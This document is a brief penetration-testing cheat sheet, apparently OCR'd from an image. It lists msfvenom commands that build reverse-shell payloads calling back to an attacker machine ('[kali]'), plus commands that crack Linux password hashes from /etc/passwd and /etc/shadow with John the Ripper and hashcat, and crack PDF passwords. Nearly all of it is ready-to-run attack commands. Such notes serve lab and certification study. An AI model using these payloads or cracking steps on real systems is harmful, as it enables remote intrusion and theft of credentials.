 ## MSFVenom payload generation

Metasploit payload cheatsheet: https://netsec.ws/?p=331

Java / .war
```
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=[kali] LPORT=9999 -f war -o rshell.war
```

Javascript
```
$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=[kali] LPORT=443 -f js_le -e generic/none
```


## Hash Cracking

Online hash cracker: https://crackstation.net/

Cracking linux hashes - requires `/etc/passwd` and `/etc/shadow`
```
$ unshadow passwd.txt shadow.txt > passwords.txt
$ john --wordlist=rockyou.txt passwords.txt
```

Hashcat
```
# Check hash type -> crack w/ hashcat
$ hash-identifier [hash]    
$ hashcat -m [hash-type] -a 0 [hash-file] [wordlist] --show -o cracked.txt
```

Crack PDF files
```
# extract hash from PDF
$ pdf2john.pl > hash

# remove .pdf filename prepending hash
# crack hash
$ hashcat -m 10500 hash.txt -a 0 rockyou.txt --show -o cracked.txt
```


